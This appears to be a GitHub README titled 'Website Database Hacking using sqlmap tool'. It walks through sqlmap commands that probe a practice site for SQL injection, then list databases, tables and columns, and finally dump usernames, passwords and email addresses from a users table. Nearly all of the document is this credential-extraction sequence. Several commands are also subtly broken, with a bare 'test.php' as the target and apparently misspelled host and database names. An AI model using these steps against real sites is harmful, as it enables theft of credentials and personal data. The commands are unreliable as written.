 # Linux-Project--Website-Database-Hacking-using-sqlmap-tool-
Website Database Hacking using sqlmap tool 
Identify Databases:
sqlmap -u "testphp.vulneb.com/artists.php?artist=1" --dbs
This command checks the website for SQL injection vulnerabilities and lists the names of databases if found.

Find Tables in a Specific Database:
sqlmap -u "test.php" -D acurat --tables
This command lists all tables within the specified database, acurat.

Find Columns in a Specific Table:
sqlmap -u "test.php" -D acurat -T users --columns
This command lists all column names in the users table of the acurat database.

Retrieve Username Data:
sqlmap -u "test.php" -D acurat -T users -C uname --dump
This command extracts data from the uname column in the users table, retrieving usernames.


Retrieve Password Data:
sqlmap -u "test.php" -D acurat -T users -C pass --dump
This command extracts data from the pass column in the users table, retrieving passwords.

Retrieve Email Data:
sqlmap -u "test.php" -D acurat -T users -C email --dump
This command extracts data from the email column in the users table, retrieving email addresses.

These commands demonstrate how SQLMap can be used to test for SQL injection vulnerabilities, list database and table structures, and retrieve sensitive information from a database.
